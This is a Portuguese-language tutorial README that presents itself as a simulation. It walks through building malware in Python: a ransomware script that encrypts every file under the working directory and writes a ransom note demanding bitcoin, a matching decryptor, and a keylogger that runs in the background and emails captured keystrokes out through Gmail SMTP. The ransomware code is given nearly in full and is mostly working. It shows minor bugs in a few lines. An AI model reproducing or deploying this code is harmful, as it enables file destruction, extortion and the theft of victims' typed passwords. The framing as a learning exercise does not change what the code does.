# Simulação de malware de captura de dados usando python

[](https://choosealicense.com/licenses/mit/)
[]()

## Sobre O Projeto
Guia descrevendo uma simulação de captura de dados através de malware usando python.

## Ferramentas necessárias
Ambiente de desenvolvimento(esse projeto usa vim, mas fica a gosto pessoal, sendo necessário adaptar as partes para que se encaixem no caso específico)
+ vim
  + Arch linux: `sudo pacman -S vim`
  + Debian/Ubuntu: `sudo apt update && sudo apt install vim -y`
  + Fedora: `sudo dnf install vim`
  + Windows: https://www.vim.org/download.php
+ python
  + Arch linux: `sudo pacman -S python python-pip` 
  + Debian/Ubuntu: `sudo apt install python3 python3-pip`
  + Fedora: `sudo dnf install python3 python3-pip`
  + Windows: https://www.python.org/downloads/windows/
+ dados_confidenciais.txt
+ senhas.txt

⚠️ **Aviso:** pip já vem instalando em versões mais recentes do python no windows

💡 **Sugestão:** habilite o destaque de sintaxe do vim usando ````:syntax on```` no modo normal

💡 **Sugestão:** habilite o número de linhas do vim usando ````:set number```` no modo normal

é possível habilitar de forma permanente da seguinta forma

`vim ~./vimrc`

entre no modo de inserção e escreva no arquivo

`"Habilita o numero de linhas`

`set number`

`"habilita sintaxe`

`syntax on`

volte para o modo normal do vim e carregue o arquivo com as configurações

`:source ~/vimrc`

## Ataque de ransomware



importa o módulo fernet da biblioteca de criptografia

`from cryptography.fernet import Fernet`

importa a biblioteca os para manipulação de operações do sistema operacional

`import os`

cria a função gerar chave

`def gerar_chave():`

associa o método de geração de chave do fernet que gera uma chave de 32 bytes com codificação base64

`chave = Fernet.generate.key()`

declaração para lidar com a abertura do arquivo "chave.key" em modo de apenas leitura(w) em formato binário(wb)

usa a função de abertura de arquivo como "chave_file" para escrever o contéudo da variável "chave" no arquivo "chave_key"

```
with open("chave.key", "wb") as chave_file:
    chave_file.write(chave)
```



cria a função carregar chave

`def carregar_chave():`

retorna o valor do arquivo que será aberto como apenas leitura(r) em formato binário(b) pela função open e terá seu conteúdo lido pela função open

`return open("chave.key", "rb").read()`



Cria a função criptografar arquivo com dois parâmetros(arquivo e chave)

`def criptografar_arquivo(arquivo, chave):`

cria a instância fernet

`f = Fernet(chave)`

ler o arquivo original

```
with open(arquivo, "rb") as file:
   dados = file.read()
```

criptografa o conteúdo da variável dados

`dados_encriptados = f.encrypt(dados)`

criptografa os dados originais

```
with open(arquivo, "wb") as file:
        file.write(dados_encriptados)
```




cria função de encontrar arquvios

`def encontrar_arquivos(diretorio):`

cria um array vázio

`lista = []`

cria um loop for que lê os arquivos e pastas do diretório a partir da função os.walk, além de garantir que o arquivo "ransomware.py" e arquivos com extensão ".key" não faça parte da lista. 

```
    for raiz, _, arquivos in os.walk(diretorio):
        for nome in arquivos:
            caminho = os.path.join(raiz,nome)
            if nome != "ransomware.py" and not nome.endswith(".key"):
                lista.append(caminho)
        return lista
```



```
def criar_mensagem_resgate():
    with open("LEIA ISSO.txt", "w") as f:
        f.write("Seus arquivos foram criptografados!\n")
        f.write("Enviar 1 bitcoin para o enderço X e envie o comprovante!\n")
        f.write("Depois disso, enviaremos a chave para recuperar seus dados!\n")
```




```
def main():
    gerar_chave()
    chave = carregar_chave()
    diretorio = os.getcwd()
    arquivos = encontrar_arquivos(diretorio)
    for arquivo in arquivos:
        criptografar_arquivo(arquivo, chave)
    criar_mensagem_resgate()
    print("Ransomware executado! Arquivos criptografados!")
```



Verifica se o script está sendo executado como principal ou está sendo importando como módulo

```
if __name__ == '__main__':
    main()

```
⚠️ **Aviso:** Se estiver usando linux, terá que dar permissão de execução para o programa

`sudo chmod u+x <arquivo.py>`

o conteúdo do arquivo fica a critério do próprio usuário, apesar de estar disponível um exemplo para ser usado.





⚠️ **Aviso:** por causa do código da variável "diretório" no main, os arquivos serão criptografados na pasta que o programa foi executado. Se tiver arquivos importantes nessa pasta, faça backup antes de executar.

execute o programa ransomware

`python ./<nome_do_arquivo.py>`



com a execução do programa, o arquivo "chave.key" e "LEIA ISSO.txt" serão criados



abrindo os arquivos é possível ver que eles se encontram criptografados







## Descriptografando os arquivos

⚠️ **Aviso:** Parte da lógica desse programa segue a mesma lógica do primeiro, sendo necessário estar na mesma pasta dos arquivos que vão ser descriptografados.



```
from cryptography.fernet import Fernet   
import os
```

📋**Código repetido:** a explicação para essa parte já foi dada anteriormente

```
def carregar_chave():
    return open("chave.key", "rb").read().strip()
```

lê o arquivo "chave.key" criado pelo software de criptografia(ransomware)



`def descriptografar_arquivo(arquivo,chave):`

cria a função descriptografar arquivo

`f = Fernet(chave)`

cria uma instância para permitir os métodos da classe Fernet da biblioteca de criptografia  

```
with open(arquivo, "rb") as file:
  dados = file.read().strip()
  dados_descriptografados = f.decrypt(dados)
```
lê os conteúdos dos arquivos criptografados e os descriptografa usando a variável "dados descriptografados" 

```
with open(arquivo, "wb") as file:
        file.write(dados_descriptografados)
```

reescreve o conteúdo do arquivo para a versão descriptografada 



`def encontrar_arquivos(diretorio):`

cria a função encontrar arquivos



```
lista = []
  for raiz, _, arquivos in os.walk(diretorio):
    for nome in arquivos:
      caminho = os.path.join(raiz, nome)
      if nome != "ransomware.py" and nome != "LEIA ISSO.txt" and nome != "descriptografar.py" and not nome.endswith(".key"):
        lista.append(caminho)
  return lista
```

cria uma lista vazia, percorre todos os arquivos do diretório de forma recursiva e ignora os arquivos "ransmoware.py", "LEIA ISSO.txt", "descriptografar.py" e arquivos com extensão ".key" e adiciona o resto dos arquivos na lista.



`def main():`

cria a função main

```
    chave = carregar_chave()
    diretorio = os.getcwd()
    arquivos = encontrar_arquivos(diretorio)
    for arquivo in arquivos: 
        descriptografar_arquivo(arquivo, chave)
    print("Arquivos restaurados com sucesso")
```

❗**Complicação**: criei a variável diretório por ter tido problema com os caminhos do diretório, porém se o for fixo o nome e não tiver algum tipo de problema ao ler esse nome, pode só deixar o nome do diretório entre aspas.

📋**Código repetido:** a explicação para essa parte já foi dada anteriormente

```
if __name__ == "__main__":
    main()
```

📋**Código repetido:** a explicação para essa parte já foi dada anteriormente





## Keylogger

### Versão linux

Instalação da biblioteca keyboard

`pip install keyboard`

❗**Complicação**: as versões dos sistemas atuais do linux usam wayland como protocolo de comunicação por ser mais seguro. A biblioteca pynput foi projetada com x11 em mente. Foi necessário migrar para a biblioteca keyboard para evitar os bugs do pynput.



cria uma lista com as teclas que vão ser ignoradas pelo keylogger



cria uma função que capta o que está sendo digitado, escreve no arquivo "log.txt" e faz o tratamento para teclas especiais como ctrl ou shift



captura a tecla quando for pressionada, além de ter a condição de encerrar o programa quando o "esc" for apertado

💡 **Sugestão:** você pode fazer o programa capturar todas as teclas incluindo o esc, apenas deixando a string do keyboard.wat vazio

execute o programa

`sudo python <nome_do_arquivo.py`



⚠️ **Aviso:**: a biblioteca keyboard exige permissão de super usuário(sudo) para ser executado

é possível checar o arquivo log.txt para ver a captura das teclas digitadas



💡 **Sugestão:** é possível rodar o script em background usando o comando `sudo -b <programa.py`

## Enviando os dados de forma remota

⚠️ **Aviso:**: é preciso habilitar verificação em 2 etapas e chave de acesso para o próximo passo. Não será explicado como criar conta google ou habilitar a verificação ou chave, mas será disponibilizado links para consulta.

+ verificação em 2 etapas: https://support.google.com/accounts/answer/10956730?hl=pt-BR
+ chave de acesso:  myaccount.google.com/apppasswords 

é necessário também ter a biblioteca smtplib(ela já vem por padrão no python, mas caso não tenha, use o código abaixo)

`pip install secure-smtplib`



carrega as bibliotecas necessárias e configura o email senha de acesso para poder usar o smtplib



checa se o log está vazio, cria o header do email e envia a mensagem de email com as teclas que foram capturadas pelo log



faz o tratamento das teclas especiais e adiciona elas ao corpo da mensagem que vai ser enviada por email



captura as teclas pressionadas e depois executa a função de enviar_email



execute o script

`sudo <arquivo.py>`



cheque o email para ter certeza que o programa está enviando os dados para o email



### Versão windows

Tanto a versão do windows quanto do linux possuem a mesma lógica. Essa seção se focará apenas nas diferenças.

## Conclusão
Como um usuário ou empregado que trabalha como informações sensíveis e sigilosas, é importante manter backups frequentes dos seus dados relevantes, isso pode evitar o cenário de ficar refém dessas informações.
